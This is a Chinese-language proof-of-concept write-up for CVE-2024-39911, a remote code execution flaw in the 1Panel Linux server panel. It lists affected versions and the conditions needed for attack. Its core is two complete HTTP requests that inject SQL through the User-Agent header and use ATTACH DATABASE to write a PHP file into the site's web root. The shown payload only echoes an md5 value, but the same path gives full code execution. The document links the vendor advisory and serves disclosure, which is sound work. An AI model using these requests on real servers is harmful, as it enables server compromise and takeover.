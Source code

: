 # 1Panel面板最新前台RCE漏洞(CVE-2024-39911)

**1Panel 是新一代的 Linux 服务器运维管理面板，用户可以通过 Web 图形界面轻松管理 Linux 服务器，实现主机监控、文件管理、数据库管理、容器管理等功能。且深度集成开源建站软件 WordPress 和 Halo.**

## 0x1 测试版本

专业版 v1.10.10-lts
社区版 v1.10.10-lts
1panel/openresty:1.21.4.3-3-1-focal

## 0x2 影响范围

网站监控功能影响 == 1panel/openresty:1.21.4.3-3-1-focal
WAF功能影响 <= 1panel/openresty:1.21.4.3-3-1-focal

## 0x3 题外话

具体测试/发现过程在 `https://blog.mo60.cn/index.php/archives/1Panel_SQLinjection2Rce.html` 有兴趣的大佬们可以看看

## 0x4 网站监控功能GetShell

利用条件:

- 专业版,并开启网站监控功能
- 关闭waf功能
- 安装有1P-openresty容器且搭建有php环境网站

默认网站路径格式如下，这个路径是在op容器里面的路径

```
/www/sites/网站代号(默认为域名)/index/
```



通过sql注入导出文件到网站路径下

```yaml
GET / HTTP/1.1
Host: 192.168.99.6
User-Agent: ua', 'blog.mo60.cn', 5201314, '', '', 1, '2024-06-09 08:16:52', 1817921010.847, '/AAAAAAA', 52014, '2025-06-09', '16', '', '', 'Linux', 'edge', 'pc', '', '');ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
```



然后来到网站路径下可以看到我们写入的文件

[![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407190936858.png)](https://private-user-images.githubusercontent.com/103053746/338056404-4c64d116-6187-4661-8e9e-d3ae21b189bd.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MjEzNTMyMzYsIm5iZiI6MTcyMTM1MjkzNiwicGF0aCI6Ii8xMDMwNTM3NDYvMzM4MDU2NDA0LTRjNjRkMTE2LTYxODctNDY2MS04ZTllLWQzYWUyMWIxODliZC5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNzE5JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDcxOVQwMTM1MzZaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0yYWU1MjIyZmFiMzIwNzI1Yzg1NzQxN2JlNTMwODM5MjlmM2QwNDY5ZGRiZWFkYWU5YTliNDYyZjAyZjAyZWM4JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.xjt8TbyhsjYoiHzeUd26xnyhwMIoC7sjLAy4pM6oB0c)

访问发现成功输出blog.mo60.cn 的md5值，成功执行代码

[![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407190936869.png)](https://private-user-images.githubusercontent.com/103053746/338056240-52bc1681-bba4-4e50-bca5-3a1a2821eb8f.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MjEzNTMyMzYsIm5iZiI6MTcyMTM1MjkzNiwicGF0aCI6Ii8xMDMwNTM3NDYvMzM4MDU2MjQwLTUyYmMxNjgxLWJiYTQtNGU1MC1iY2E1LTNhMWEyODIxZWI4Zi5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNzE5JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDcxOVQwMTM1MzZaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0xOWNkYmUyMjc2NTFiMjNiNTMxMzVhMDgyODBiMmEyMTEwNmFiYTM3ZDY2OTczMGNjZGE3NGRiYTVhOGE0ZTUwJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.w-QHDxXdU-6bvX0VL-Bk54sB4XcCdIpj4NAYhvV2hy8)

## 0x5 Waf功能

利用条件:

- 开启waf功能
- 安装有1P-openresty容器且搭建有php环境网站

发送后即可成功写入文件

```yaml
GET /.git/config HTTP/1.1
Host: 192.168.99.6
User-Agent: blog.mo60.cn',"args", "sqlInjectA", "", "YmxvZy5tbzYwLmNu", "blog.mo60.cn", 0, "deny", 0, 1);ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
Connection: close
```



## 漏洞来源

- https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-7m53-pwp6-v3f5